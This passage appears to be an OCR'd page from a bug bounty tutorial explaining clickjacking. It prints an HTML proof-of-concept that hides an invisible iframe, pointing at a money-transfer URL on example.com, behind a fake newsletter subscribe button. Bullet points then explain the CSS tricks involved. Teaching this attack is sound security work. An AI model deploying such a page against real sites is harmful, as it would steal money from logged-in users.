 ```
 }
 #decoy {
 3 position:absolute;
 width:500px;
 height:500px;
 4 z-index:-1;
 }
 </style>
 <div id="decoy">
 <h3>Welcome to my site!</h3>
 <h3>
 This is a cybersecurity newsletter that focuses on bugbounty news and write-ups! 
 Please subscribe to my newsletter below to receive newcybersecurity articles in your email inbox!
 </h3>
 <form action="/subscribe" method="post">
 <label for="email">Email:</label>
 5 <br>
 <input type="text" id="email" value="Please enter your email!">
 6 <br><br>
 <input type="submit" value="Submit">
 </form>
 </div>
 <iframe id="victim-site"
 src="https://www.example.com/transfer_money? 
 recipient=attacker_account_12345&amount=5000" 
 width="500" height="500">
 </iframe>
</html>
```
- You can see that we’ve added a ```<style>``` tag at the top of the HTML page.
- Here, we set the position of our decoy element to absolute to make the decoy site overlap with the iframe containing the victim site 3
- Without the absolute position directive, HTML would display these elements on separate parts of the screen. 
- The decoy element includes a Subscribe to Newsletter button, and we carefully position the iframe so the Transfer Balance button sits directly on top of this Subscribe button, using new lines created by HTML’s line break tag ```<br>``` 5 6. 
- We then make the iframe invisible by setting its opacity to a very low value 1. Finally, we set the z-index of the iframe to a higher value than the decoys 2 4. 
- The z-index sets the stack order of different HTML elements. 
- If two HTML elements overlap, the one with the highest z-index will be on top.
- By setting these CSS properties for the victim site iframe and decoy form, we get a page that looks like it’s for subscribing to a newsletter, but contains an invisible form that transfers the user’s money into the attacker’s account.
- If the user is logged into the banking site, they’ll be logged into the iframe too, so the banking site’s server will recognize the requests sent by the iframe as legit. 
- When the user clicks the seemingly harmless button, they’re executing a balance transfer on example.com! They’ll have accidentally transferred $5,000 from their bank account balance to the attacker’s 
account instead of subscribing to a newsletter. 
- This is why we call this attack user-interface redressing or clickjacking: the attacker redressed the user interface to hijack user clicks, repurposing the clicks meant for their page and using them on a victim site
